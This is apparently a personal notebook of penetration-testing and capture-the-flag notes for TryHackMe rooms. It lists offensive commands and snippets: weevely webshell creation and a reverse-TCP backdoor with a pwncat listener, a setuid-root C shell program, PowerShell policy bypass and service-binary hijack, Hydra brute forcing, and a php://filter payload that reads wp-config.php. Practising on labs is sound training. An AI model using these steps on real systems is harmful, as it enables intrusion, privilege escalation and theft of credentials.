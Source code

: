 # R

* Remember for web/general/security
* .todo: dns discord
* web general | terminology | URL may have to be moved

<hr>

## Oh... no...

* https://github.com/rmusser01/Infosec_Reference

<hr>

## Reaped

* `smbmap -H IP`: see shares, users, files
* RPC 111
* binwalk / binwalk -e (extract)
  * see what there is inside the file (ex: img then zip)
* https://github.com/frizb/Hydra-Cheatsheet
* https://github.com/s0md3v/Decodify
* https://github.com/carlospolop/legion
* export TERM=xterm-256color
* websites
  * https://blog.razrsec.uk/
  * https://stawm.design.blog/
  * https://blog.qz.sg/
  * https://saharshtapi.github.io/
  * https://vitcher97.blogspot.com/
  * https://marcorei7.wordpress.com/
  * https://thefluffy007.com/
  * https://fr33s0ul.tech/
  * https://beginninghacking.net/
  * https://aptx1337.github.io/
  * https://shishirsubedi.com.np/
  * https://hackofalltrades.dev/
  * https://cybersecnerds.com/
  * https://blog.raw.pm/
  * https://nairitya03.github.io/CTF-WriteUps/
  * https://mrash.co/
  * https://robertmuwanga.netlify.app/
* https://www.pentesterlab.com/
* https://github.com/epinna/weevely3
  * weevely generate password webshell.php
  * weevely URL/webshell.php password
  * :backdoor_reversetcp IP PORT
  * pwncat -lvv PORT
* https://github.com/nccgroup/GTFOBLookup
* https://null-byte.wonderhowto.com/how-to/bypass-file-upload-restrictions-web-apps-get-shell-0323454/

<hr>

## Prev esc

https://tryhackme.com/room/linprivesc
=> If there are tools not installed on your target: https://github.com/andrew-d/static-binaries
=> hint/notes
=> network
* Another alternative to this program, is to create a suite file with a copy of bash.

```c
int main() {
  setgid(0);
  setuid(0);
  system("/bin/bash");
  return 0;
}
```

* https://tryhackme.com/room/windowsprivesc20 (dropped fur now)

<hr>

## Forced Browsing

* https://tryhackme.com/room/webenumerationv2
  * Gobuster options.
  * -k for ssl errors
* Gobuster DNS/VHosts
* Useful wordlists
* nmap `-n` redo
* add a warning + 64th
* `cat /usr/share/wordlists/dirb/extensions_common.txt | tr '\n' ','`
* `gobuster -u` for vhost
* `gobuster vhost -u http://webenum.thm -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t50 --append-domain` (in new versions of gobuster, false by default)
* NOT FINISHED https://tryhackme.com/room/webenumerationv2

> While participating in rooms on TryHackMe, virtual hosts would be a good way to hide a completely different website if nothing turned up on your main port 80/443 scan.

<hr>

## Overconfidence

--- https://tryhackme.com/room/steelmountain

* use meterpreter upload to upload the winPEAS
* `upload /tmp/xxx`
* `shell`
* `.\winPEASany_ofs.exe`
* `powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"`
* `powershell -ep bypass -c ". .\PowerUp.ps1;"`
* `https://github.com/itm4n/PrivescCheck#metasploit-timeout`
* `load powershell`
* `powershell_shell`
* `. .\PowerUp.ps1; Invoke-AllChecks`
* `. .\PowerUp.ps1` `PS > Invoke-AllChecks`
* https://www.joesandbox.com/#windows
* https://github.com/EgeBalci/sgn
* sc qc XXX
* sc stop XXX
* `Write-ServiceBinary -Name 'XXX' -Path ".\nc.exe"`
* sc start XXX
* `powershell -c wget "URL" -outfile "OUTPUT"`
* like OTX: https://cyware.com/

--- https://tryhackme.com/room/easyctf 🐍🐍🐍

* `python2 simple.py`
* oh gosh, volatily + `pip install --upgrade setuptools` https://stackoverflow.com/questions/31719816/pip-fails-to-install-anything-error-invalid-command-egg-info
* `print "[+] Specify an url target"`

--- https://tryhackme.com/room/cowboyhacker

* nmap
* FTP exposed
* Hydra ssh
* SUID

--- https://tryhackme.com/room/lazyadmin 🐍🐍🐍

* nmap
* gobuster
* ...

--- https://tryhackme.com/room/startup

* nmap
* gobuster
* ftp
* file upload
* wireshark
* crontab

Others

* If FTP is asking for a password, press enter
* FTP do not seem to work with path (to upload with put, but it works if you start FTP in the directory where the file is)
* Press F12 to go back to penelope UI. You can use upload/download. Go back with `interact 1`
* wireshark `.pcapng`. Then right-click on interesting packets, and click on "follow TCP Stream"
* Proper name for this section whelp 😭

--- https://tryhackme.com/room/allinonemj 🐍🐍🐍

* Test: `wpscan --url http://10.10.162.222/wordpress/ --detection-mode aggressive`
* `php://filter/convert.base64-encode/resource=../../../../../wp-config.php` (file inclusion)